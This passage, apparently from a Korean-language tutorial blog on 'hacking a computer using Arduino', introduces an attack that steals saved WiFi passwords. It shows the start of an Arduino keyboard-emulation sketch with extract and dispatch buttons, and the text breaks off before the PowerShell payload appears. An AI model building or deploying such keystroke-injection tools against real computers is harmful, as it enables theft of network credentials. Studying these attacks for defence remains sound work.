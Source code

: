 ## Setup 함수

이 함수는 아두이노가 전원이 켜질 때 한 번만 실행돼요.

## Loop 함수

<div class="content-ad"></div>

이 기능은 설정 함수를 실행하면 계속 실행됩니다.

![이미지](/assets/img/2024-06-22-HackingacomputerusingArduino_1.png)

회로 기판(왼쪽) 다이어그램에서 버튼이 각각 핀 2와 핀 3에 연결되어 있음을 알았습니다. 따라서 스케치(오른쪽)에서 pinMode(2, INPUT); 및 pinMode(3, INPUT);를 각각 입력 구성 요소로 정의했습니다. loop 함수는 우리 함수의 실행을 정의한 곳입니다.

# 공격 1: WiFi 비밀번호 도용

<div class="content-ad"></div>

컴퓨터가 WiFi에 연결될 때마다 WiFi 비밀번호가 시스템에 저장됩니다. 이 좋은 소식은 PowerShell 명령을 활용하여 WiFi 서비스 세트 식별자(SSID)와 비밀번호 목록을 얻을 수 있다는 것입니다.

```js
#include <Keyboard.h>
#include <EEPROM.h>
char stringArray[500] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;

void setup() {    
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        extractingData();
        extracted = true;
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        dispatchingData();
        dispatched = true;
    }    
```